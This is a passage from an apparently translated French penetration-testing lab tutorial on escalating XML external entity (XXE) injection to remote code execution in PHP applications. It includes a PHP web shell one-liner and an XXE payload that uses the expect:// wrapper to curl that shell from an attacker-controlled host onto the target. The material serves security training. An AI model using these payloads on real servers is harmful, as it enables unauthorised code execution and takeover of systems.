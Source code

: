 En plus de lire les fichiers locaux, nous pourrons peut-être obtenir l'exécution de code sur le serveur distant. La méthode la plus simple serait de rechercher `ssh`des clés ou d'essayer d'utiliser une astuce de vol de hachage dans les applications Web Windows en appelant notre serveur. Si cela ne fonctionne pas, nous pouvons toujours exécuter des commandes sur des applications Web basées sur PHP via le `PHP://expect`filtre, bien que cela nécessite `expect`l'installation et l'activation du module PHP.

Si le XXE imprime directement sa sortie "comme indiqué dans cette section", alors nous pouvons exécuter des commandes de base comme `expect://id`, et la page devrait imprimer la sortie de la commande. Cependant, si nous n'avions pas accès à la sortie, ou si nous devions exécuter une commande plus compliquée 'par exemple reverse shell', alors la syntaxe XML peut se casser et la commande peut ne pas s'exécuter.

La méthode la plus efficace pour transformer XXE en RCE consiste à récupérer un shell Web sur notre serveur et à l'écrire dans l'application Web, puis nous pouvons interagir avec lui pour exécuter des commandes. Pour ce faire, nous pouvons commencer par écrire un shell Web PHP de base et démarrer un serveur Web python, comme suit :

```
dsgsec@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
dsgsec@htb[/htb]$ sudo python3 -m http.server 80

```

Maintenant, nous pouvons utiliser le code XML suivant pour exécuter une `curl`commande qui télécharge notre shell Web sur le serveur distant :

Code : xml

```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>

```

Remarque : Nous avons remplacé tous les espaces dans le code XML ci-dessus par `$IFS`, pour éviter de casser la syntaxe XML. De plus, de nombreux autres caractères comme `|`, `>`et `{`peuvent casser le code, nous devons donc éviter de les utiliser.

Une fois que nous envoyons la demande, nous devrions recevoir une demande sur notre machine pour le `shell.php`fichier, après quoi nous pouvons interagir avec le shell Web sur le serveur distant pour l'exécution de code.

Remarque : Le module expect n'est pas activé/installé par défaut sur les serveurs PHP modernes, donc cette attaque peut ne pas toujours fonctionner. C'est pourquoi XXE est généralement utilisé pour divulguer des fichiers locaux sensibles et du code source, ce qui peut révéler des vulnérabilités supplémentaires ou des moyens d'obtenir l'exécution de code.
